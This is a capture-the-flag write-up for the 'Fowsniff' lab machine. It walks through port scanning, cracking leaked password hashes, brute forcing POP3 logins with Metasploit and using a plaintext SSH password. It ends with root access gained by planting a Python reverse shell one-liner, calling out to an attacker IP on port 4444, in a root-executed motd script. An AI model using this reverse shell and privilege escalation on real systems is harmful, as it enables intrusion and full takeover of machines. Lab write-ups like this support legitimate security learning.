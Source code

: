This boot2root machine is brilliant for new starters. You will have to enumerate this machine by finding open ports, do some online research (its amazing how much information Google can find for you), decoding hashes, brute forcing a pop3 login and much more!

Nmap scan of the target
```
┌──(p0s3id0n㉿kali)-[~/thm]
└─$ nmap -sCV -p- -A 10.10.160.109 --min-rate=10000ms
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-29 23:17 BST
Nmap scan report for 10.10.160.109
Host is up (0.63s latency).
Not shown: 64580 filtered tcp ports (no-response), 951 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
| http-robots.txt: 1 disallowed entry 
|_/
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) USER AUTH-RESP-CODE PIPELINING UIDL TOP RESP-CODES CAPA
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: ID LITERAL+ listed AUTH=PLAINA0001 Pre-login post-login more LOGIN-REFERRALS OK have IDLE capabilities ENABLE SASL-IR IMAP4rev1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.40 seconds

```

Open ports are: 22, 80,110,143
Found a website on port 80 saying that the service is temporarily down and employee information has been leaked. Customer information is safe but employees are encouraged to change their passwords.
![[1.png]]
![[LABS/FOWSNIFF/2.png]]
![[LABS/FOWSNIFF/3.png]]

Also found the official twitter account of the company.
![[4.png]]
![[LABS/FOWSNIFF/5.png]]
There was a pastebin containing the passwords but the site was down so I used the github link on the challenge hint (https://github.com/berzerk0/Fowsniff)

The link contained a list of employee usernames and passwords. We are expected to crack the password hashes. I used (https://crackstation.net/) for this.
Dumped passwords and usernames:
![[LABS/FOWSNIFF/6.png]]
Cracked passwords:
![[7.png]]

In order to use the metasploit exploit we are hinted to use, we have to create 2 files, one for the cracked passwords and another for the usernames.
From the hint, we are guided to use the following metasploit package: auxiliary/scanner/pop3/pop3_login
![[8.png]]
![[10.png]]

Set the options and make sure to change the user and pass files to the users and pass files we set earlier. 

After running the exploit, we got user seina's password 
![[11.png]]

I then used a netcat listener to connect to the pop3 server using seina's credentials.
![[12.png]]
The user had 2 emails in her inbox: one from the system admin Stone and one from another user baksteen.

The output points towards use of ssh to login to the application using the temporary password and the sender's username.
Temp password:
![[13.png]]
Password : S1ck3nBluff+secureshell
I first tried logging in using seina's username but that did not work. I then tried stone's username because he was the sender of the first email but that also did not work.
Then I looked at the second email and found the baksteen user as the sender. 
Sender's username:
![[14.png]]

What groups does the user belong to?
Using the id command we found the user belong to the users and baskteen group.
![[15.png]]

We are given a hint : cube.sh
So I used the following command to find the location of the flag.
```
find / -name "cube.sh"
```
![[16.png]]

Contents of the cube.sh file
![[17.png]]
We have write persmissions over the file
![[18.png]]

Can we edit it to include reverse shell?
I used the following online site to generate a pyton3 rev shell as instructed (https://www.revshells.com/)
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.73.211",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
I pasted the rev shell payload to the cube.sh file using the vi editor.

Now came the challenging bit, how do I run the file to get a connected shell via my netcat listener.
Then I saw the hint on the machine
Hint 
1. *If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in **/etc/update-motd.d/** file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!*
2. *Run the cube file to the motd.d file.
Step one:
Look at the file specified to confirm the cube.sh file is called there. 
![[22.png]]
![[23.png]]
Now that we have confirmed the cube.sh file can be called by the motd file we can move to the next part

Step 2:
Hint : *If you have not found out already, this file is run as root when a user connects to the machine using SSH.*

This means that if we attempt to connect to the machine using the same user again via ssh, we will get root privileges.

So I set up my netcat listener, opened a new tab and logged in as baskteen using ssh.

Successful root!!
![[21.png]]

![[20.png]]
